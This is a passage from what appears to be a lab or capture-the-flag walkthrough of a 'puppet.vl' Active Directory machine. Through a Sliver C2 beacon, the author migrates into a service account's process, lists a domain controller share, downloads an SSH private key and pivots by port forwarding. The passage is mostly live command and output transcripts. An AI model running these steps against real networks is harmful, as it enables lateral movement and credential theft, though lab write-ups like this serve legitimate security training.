 The problem with this is, although it works its a bit invasive and times out quickly due to being a service. A better approach is finding the existing process and injection/migrating to it:

```terminal
sliver (puppet-mtls) > ps

...
4832   656    PUPPET\svc_puppet_win_t1       x86_64   ruby.exe
...

sliver (puppet-mtls) >  migrate -p 4832

[*] Successfully migrated to 4832
```

From the new beacon as  `svc_puppet_win_t1` we can now list the share on the domain controller, since this account has access rights to it:

```terminal
sliver (puppet-mtls) > ls \\\\dc01.puppet.vl\\it

\\dc01.puppet.vl\it\ (3 items, 813.9 KiB)
=========================================
drwxrwxrwx  .ssh          <dir>      Sat Oct 12 01:39:50 -0700 2024
drwxrwxrwx  firewalls     <dir>      Sat Oct 12 01:15:05 -0700 2024
-rw-rw-rw-  PsExec64.exe  813.9 KiB  Sat Oct 12 01:07:00 -0700 2024
```

We can now see that we have indeed access and look around a bit.

```terminal
sliver (puppet-mtls) > ls \\\\dc01.puppet.vl\\it\\.ssh

\\dc01.puppet.vl\it\.ssh (2 items, 580 B)
=========================================
-rw-rw-rw-  ed25519      472 B  Sat Oct 12 01:14:23 -0700 2024
-rw-rw-rw-  ed25519.pub  108 B  Sat Oct 12 01:40:09 -0700 2024

sliver (puppet-mtls) > download \\\\dc01.puppet.vl\\it\\.ssh\\ed25519

[*] Tasked beacon puppet-mtls (9b246218)

sliver (puppet-mtls) > download \\\\dc01.puppet.vl\\it\\.ssh\\ed25519.pub

[*] Tasked beacon puppet-mtls (0a09f6ff)
```

From the content of the files, we learn that this is a ssh private key for the account `svc_puppet_lin_t1@puppet.vl` (note that you may have to convert line endings  since this key came from a windows machine). Although sliver has a functionality to run ssh commands from a beacon, I didn't have much luck getting it to work. So we are going to setup a port forward to ssh from our attacker machine:

```terminal
# forward port from a session or beacon
portfwd add --bind 2222 -r 10.10.144.231:22
...
ssh -i svc_puppet_lin_t1 -t 'svc_puppet_lin_t1@puppet.vl'@127.0.0.1 -p 2222
...
Last login: Sat Oct 12 18:18:52 2024 from 10.8.0.101
svc_puppet_lin_t1@puppet.vl@puppet:~$
```
